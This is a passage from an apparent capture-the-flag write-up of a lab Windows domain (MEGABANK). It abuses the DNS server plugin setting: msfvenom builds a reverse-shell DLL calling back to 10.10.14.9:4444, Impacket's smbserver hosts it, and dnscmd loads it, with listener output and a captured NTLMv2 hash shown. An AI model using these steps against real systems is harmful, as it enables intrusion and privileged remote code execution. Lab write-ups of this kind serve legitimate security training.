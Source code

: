 We create our malicious plugin using msfvenom

````bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f dll -o whare.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: whare.dll
````

We set the specified port to listen on our malicious plugin

````bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
````

After that, using the tool provided in Impacket, **smbserver.py** we create an SMB2 server

**Explanation of smbserver.py:** `smbserver.py` is a tool provided by the **Impacket** suite that allows you to set up an SMB (Server Message Block) server on the attacker's machine. This server enables the sharing of resources (files or directories) with other systems on the network. It is commonly used in penetration testing and exploitation to host malicious files that can be downloaded by victim machines. The SMB server created can be used to allow attackers to interact with a target system via the SMB protocol, which is commonly used in local area networks.

````bash
❯ python3 smbserver.py -smb2support whare /home/whare
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:a591615d121bb4874f990cfa7ec49812:0101000000000000801d48c3ee71db012d5f10e4726462be00000000010010004d004c00680065006900440074007500030010004d004c006800650069004400740075000200100050006c00730056006e004500560061000400100050006c00730056006e0045005600610007000800801d48c3ee71db0106000400020000000800300030000000000000000000000000400000572b2124a103d6fa528dfcf1a8d5a7ab4b68e7b593678bdc981d26b720cf2f550a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0039000000000000000000
````

From our **Evil-WinRM** session with the user **Ryan**, we launch it, and if successful, we will see in our **SMB server**: `User RESOLUTE\RESOLUTE$ authenticated successfully`

````powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.9\whare\whare.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
````
